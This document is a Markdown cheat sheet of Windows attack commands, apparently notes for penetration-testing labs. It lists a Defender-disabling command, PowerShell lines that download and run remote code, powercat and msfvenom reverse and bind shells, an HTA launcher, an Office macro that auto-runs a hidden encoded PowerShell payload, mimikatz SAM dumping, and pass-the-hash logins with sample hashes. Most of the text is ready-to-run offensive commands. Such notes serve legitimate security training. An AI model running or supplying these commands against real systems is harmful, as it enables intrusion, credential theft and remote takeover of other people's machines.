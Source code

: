 - Disable Defender
    - Set-MpPreference -DisableRealtimeMonitoring $true
- C compile to exe in linux `i686-w64-mingw32-gcc adduser.c -o adduser.exe`
  
# Windows file transfers
- Powershell
    -   `powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/wget.exe','C:\Windows\Temp\wget.exe')"`
    -   `iex(iwr http://10.10.10.10/shell.exe)`
- Recieve file with powercat(send file with nc) `powercat -c 10.10.10.10 -p 443 -i file.txt`


# Windows shells
- Kali has nc.exe at /usr/share/windows-resources/binaries/nc.exe
- C# compile + run
    - `C:\windows\microsoft.net\framework64\v4.0.30319\csc.exe /t:exe /out:C:\windows\temp\rev.exe C:\windows\temp\rev.cs`
- Powershell 
    - [Invoke-PowerShellTcp.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)
    - [Powershell-OneLinerReverseShell](https://gist.githubusercontent.com/egre55/c058744a4240af6515eb32b2d33fbed3/raw/2c6e4a2d6fd72ba0f103cce2afa3b492e347edc2/powershell_reverse_shell.ps1)
    - Base64 encode powershell in linux and execute with -e `Cat shell.ps1 | iconv -t utf-16le | base64 -w 0`
    - [Environment]::Is64BitProcess
    - powershell -ep bypass -noprofile -WindowStyle Hidden -e UYGfxemu...
- Powercat
    - Generate reverse shell `powercat -c 10.10.10.10 -p 443 -e cmd.exe -g`
    - Encoded reverse shell `powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge`
    - Reverse shell `powercat -c 10.10.10.10 -p 443 -e cmd.exe`
    - Bind shell `powercat -l -p 443 -e cmd.exe`
    - Listener `powercat -l -p 443` 
- HTA (mshta.exe http://ip/rev.hta)
```
<html>
<body>
<script>
var c= 'cmd.exe'
new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```
- VBS (MS office)
```
Sub AutoOpen() 
	MyMacro
End Sub
Sub Document_Open() 
	MyMacro
End Sub
Sub MyMacro()
	Dim Str As String
	Str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZ"
	Str = Str + "QB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBNAGUAbQBvAHIAeQB" 
	Str = Str + "TAH...6A"
CreateObject("Wscript.Shell").Run Str 
End Sub
```
- Msf
    -   Powershell `msfvenom -p cmd/windows/reverse_powershell lhost=10.10.10.10 lport=80`
    -   MSHTA
    	-	msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f hta-psh -o shell.hta   
        -   use exploit/windows/misc/hta_server
        -   mshta.exe hxxp://10.10.65.86:8080/VlHPpQahHBNkkeX.hta  

# Windows privilege escalation
- Tools [Winpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) and [PowerUp](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1)
- [LOLbas](https://lolbas-project.github.io/)
- whoami
- net user
- User member of which groups `net user USERNAME`
- Get hostname to understand functionality of box `hostname`
- Get system info `systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"`
- Running process `tasklist /SVC`
- Get Process statsus `wmic service where caption="Serviio" get name, caption, state, startmode`
- Start/Stop service `net start Serviio``net stop Serviio`
- Get networking info `ipconfig /all` `route print`
- Networking connections `netstat -ano`
- Firewall
	- current profile for firewall `netsh advfirewall show currentprofile`
	- Firewall rules `netsh advfirewall firewall show rule name=all`
- Scheduled Tasks `schtasks /query /fo LIST /v`
- Installed applications `wmic product get name, version, vendor`
- Security patches `wmic qfe get Caption, Description, HotFixID, InstalledOn`
- Writable files
	- `accesschk.exe -uws "Everyone" "C:\Program Files"`
	- `Get-ChildItem "C:\Program Files" - Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}`
- File permissions with Icacls
	- `icacls "C:\Program Files\Serviio\bin\ServiioService.exe"`
	- F M RX R W = Full Modify Read&Execute Read-only Write-only
- Unmounted disks `mountvol`
- Windows Drivers
	- `driverquery /v` searchsploit the driver name
	- `driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start Mode', Path`
	- `Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}`
- Auto elevate `reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer` `reg queryHKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer`
- Get intigrity of session(High/Medium/Low in bottom of o/p) `whoami /groups`
- Run as diffrent user `powershell.exe Start-Process cmd.exe -Verb runAs`
- whoami /priv
	- SeShutdownPrivilege = We can restart `shutdown /r /t 0`
	- SeImpersonatePrivilege on Windows 10 and Server 2016/2019 [PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
 
- Unquoted Service Paths `wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """`
- 
### mimikatz.exe
- `privilege::debug` `token::elevate` 
- Dump SAM `lsadump::sam` 
### SMB
- Netbios (TCP 139 | UDP 137 138)
	- Netbios can give us Hostname, Netbios name, Domain, Network Shares
	- UNC (Universal Naming Convention) paths `\\ServerName\ShareName\file.txt`
- Default administrative shares - `C$` C drive|`admin$` Windows installation|`ipc$` interprocess communication
- Null sessions 
	- `net view IP` `nmblookup -A ip` `smbclient -L //IP -N` `net use \\IP\C$ '' /u: ''` `smbclient //IP/$C -N` 
	- `enum -S IP` `enum -U IP` `enum -P IP`
	- `smbmap -H IP`
### SMB with creds/hashes
- Login with creds
	- `psexec.py administrator:Password1@10.0.0.10`
	- `smbexec.py administrator:carolina@10.0.0.169`
	- `winexe -U administrator%alice_123321 //10.0.0.6 'whoami'`
	- `evil-winrm -u administrator -p rocknroll_123321 -i 10.0.0.192`
- Login with hash
    - `pth-winexe -U user%NTLM_HASH //10.10.10.10 cmd.exe`
    - `python smbclient.py -hashes 00000000000000000000000000000000:3CAC6D4B3A7E5014E32EB12EF0C75476 Domain/Administrator@IP`
